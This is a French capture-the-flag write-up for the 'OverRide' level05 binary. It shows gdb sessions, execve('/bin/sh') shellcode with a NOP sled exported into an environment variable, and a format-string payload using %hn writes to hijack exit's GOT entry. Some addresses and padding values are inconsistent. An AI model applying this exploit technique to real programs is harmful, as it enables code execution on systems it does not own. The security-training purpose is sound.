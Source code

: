 # Override
Override 42 security level05

```
level05@OverRide:~$ ls
level05
level05@OverRide:~$ ./level05
test
test
level05@OverRide:~$ ./level05
TeTs
tets
level05@OverRide:~$
```

On a un programme plutot simple qui réécrit notre chaine en lower et qui exit à la fin et ne return pas.
Après avoir lower notre chaine, le buffer est renvoyé à printf qui l'affiche.
Comme dans Rainfall nous allons vouloir ajouter notre Shellcode en variable memoire.

Pour info, on ne peut pas utiliser une attaque comme precedemment car:
```
level05@OverRide:~$ gdb ./level05
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b * main
Breakpoint 1 at 0x8048444
(gdb) p system
No symbol table is loaded.  Use the "file" command.
```
Pas de call à system :).

Trouvons nos différents elements pour construire notre attaque:
```
info function exit
Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
```
Nous utiliserons le premier.

On export notre shellcode:
```
export SHELLCODE=$(python -c "print '\x90' * 500 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
gdb ./level05
b * main
Breakpoint 1 at 0x8048444
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048444 in main ()
(gdb) x/s *environ
0xffffd6a5:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...

0xffffd6a5 + 10 = 0xffffd6af
```

Maintenant trouvons l'offset à laquelle notre string est stockée.
```
python -c "print 'aaaa' + ' %x ' * 16" | ./level05
aaaa 64  f7fcfac0  0  0  0  0  ffffffff  ffffd514  f7fdb000  61616161  20782520  20782520  20782520  20782520  20782520  20782520
61616161 -> 10
```

Au vu de l'adresse de la variable d'environement qui est très grande en décimale, nous choisissons de l'écrire en 2 fois.
Donc:
```
0xffffd709 = 4294956809
# On la split en 2: ffff = 65535 | d6af = 54959
1ere partie = d6af - 8 ( les 2 adresses ecrites avant) = 54951
Seconde partie = ffff - 54959 = 10584
python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%54951d"+"%10$hn"+"%10584d"+"%11$hn"'
```
